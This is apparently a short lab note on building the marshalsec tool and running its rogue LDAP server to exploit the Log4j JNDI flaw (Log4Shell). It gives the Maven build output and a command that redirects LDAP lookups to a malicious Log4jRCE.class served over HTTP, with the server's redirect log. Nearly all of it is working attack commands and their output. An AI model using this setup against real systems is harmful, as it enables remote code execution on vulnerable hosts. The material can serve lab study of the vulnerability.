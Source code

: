 ## This is to emulate the rogue LDAP server, which redirect a look up to a code repository which contains code

1. Compile & package into jar

<pre>
$ mvn clean package -DskipTests
[INFO] Scanning for projects...
[INFO]
[INFO] ----------------< org.eenterphace.mbechler:marshalsec >-----------------
[INFO] Building marshalsec 0.0.3-SNAPSHOT
[INFO] --------------------------------[ jar ]---------------------------------
Downloading from central: https://repo.maven.apache.org/maven2/org/apache/maven/
plugins/maven-surefire-plugin/2.19.1/maven-surefire-plugin-2.19.1.pom
...
...\target\marshalsec-0.0.3-SNAPSHOT-all.jar
[INFO] ------------------------------------------------------------------------
[INFO] BUILD SUCCESS
[INFO] ------------------------------------------------------------------------
[INFO] Total time:  06:02 min
[INFO] Finished at: 2022-02-22T00:33:48+08:00
[INFO] ------------------------------------------------------------------------
</pre>

2. Run the rogue LDAP server. 
Any request to this LDAP will be forwarded to the attacker codebase which has malicious
<pre>
$ java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"
Listening on 0.0.0.0:1389
Send LDAP reference result for Log4jRCE redirecting to http://127.0.0.1:8888/Log4jRCE.class
Send LDAP reference result for Log4jRCE redirecting to http://127.0.0.1:8888/Log4jRCE.class
</pre>